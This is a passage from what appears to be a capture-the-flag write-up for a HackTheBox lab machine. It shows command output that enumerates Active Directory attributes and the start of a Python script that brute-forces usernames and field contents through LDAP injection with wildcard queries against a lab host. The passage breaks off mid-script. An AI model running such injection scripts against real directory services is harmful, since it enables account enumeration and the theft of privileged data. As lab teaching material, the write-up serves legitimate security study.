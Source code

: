 ```python
```

Now execute it:


```bash
❯ python3 ldap_injection.py bruteFields
[p] All fields: ['accountExpires', 'badPasswordTime', 'badPwdCount', 'cn', 'codePage', 'countryCode', 'createTimeStamp', 'description', 'distinguishedName', 'givenName', 'instanceType', 'lastLogoff', 'lastLogon', 'logonCount', 'modifyTimeStamp', 'name', 'nTSecurityDescriptor', 'objectCategory', 'objectClass', 'objectGUID', 'objectSid', 'pwdLastSet', 'replPropertyMetaData', 'sAMAccountName', 'sAMAccountType', 'sn', 'userAccountControl', 'userPrincipalName']
[◓] Currently finding attribute: userSharedFolder
```

The only interesting field is the description.
Now that we have valid users and all valid fields, we can loop through them to brute their description to see if there is some privileged info. For that, I will create the function bruteFieldContent that also do some handling for the `*` character for the case it's in the description. This is the final complete script:

```python
#!/usr/bin/python3
import string, requests
import pdb, sys
import signal
import aiohttp
import asyncio
from pwn import *

# Handle ctrl+c
def def_handler(sig,frame):
    print("\n\n[-] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Global variables
chars = string.ascii_letters + string.digits + string.punctuation
chars = chars.replace(')', '').replace('(', '').replace('&', '').replace('#', '')

# Function to fetch a url and return a response

async def fetch(session, url, retries=3):
    for attempt in range(retries):
        try:
            async with session.get(url) as response:
                return await response.text()
        except (aiohttp.ClientOSError, aiohttp.ClientConnectionError, asyncio.TimeoutError) as e:
                if attempt < retries - 1:
                    await asyncio.sleep(2 ** attempt)  # Exponential backoff
                else:
                    print(f"Failed to fetch {url}: {e}")
                    return None

# Function to brute valid usernames
async def bruteUsernames():
    chars = string.ascii_lowercase + string.digits
    results = []
    p1 = log.progress("Brute status")
    p2 = log.progress("Currently finding username")
    p3 = log.progress("Finded usernames")
    async with aiohttp.ClientSession() as session:
        for char in chars:
            
            first_url = f"http://internal.analysis.htb/users/list.php?name={char}*"
```